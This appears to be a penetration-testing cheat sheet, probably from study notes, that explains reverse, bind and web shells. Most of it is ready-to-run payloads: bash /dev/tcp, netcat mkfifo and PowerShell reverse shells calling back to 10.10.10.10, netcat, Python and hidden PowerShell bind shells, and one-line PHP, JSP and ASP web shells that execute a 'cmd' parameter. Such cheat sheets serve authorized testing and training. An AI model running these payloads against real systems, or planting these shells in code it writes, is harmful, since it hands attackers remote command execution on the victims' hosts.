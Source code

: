 ### Shells
- A `Reverse Shell` is the most common type of shell, as it is the quickest and easiest method to obtain control over a compromised host. [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) has many reverse shell payloads:

__Linux Victim__
```sh
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
...or...
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

__Windows Victim__
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()" 
```
- Another type of shell is a `Bind Shell`. Unlike a Reverse Shell that connects to us, we will have to connect to it on the targets' listening port. Once we execute a Bind Shell Command, it will start listening on a port on the remote host and bind that host's shell, i.e., Bash or PowerShell, to that port. We have to connect to that port with netcat, and we will get control through a shell on that system. [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md) again has payloads for this. 

__Linux Victim__
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
...or...
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

__Windows Victim__
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
- The final type of shell we have is a `Web Shell`. A `Web Shell` is typically a web script, i.e., PHP or ASPX, that accepts our command through HTTP request parameters such as GET or POST request parameters, executes our command, and prints its output back on the web page.

__php__
```php
<?php system($_REQUEST["cmd"]); ?>
```
__jsp__
```php
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
__asp__
```php
<% eval request("cmd") %>
```
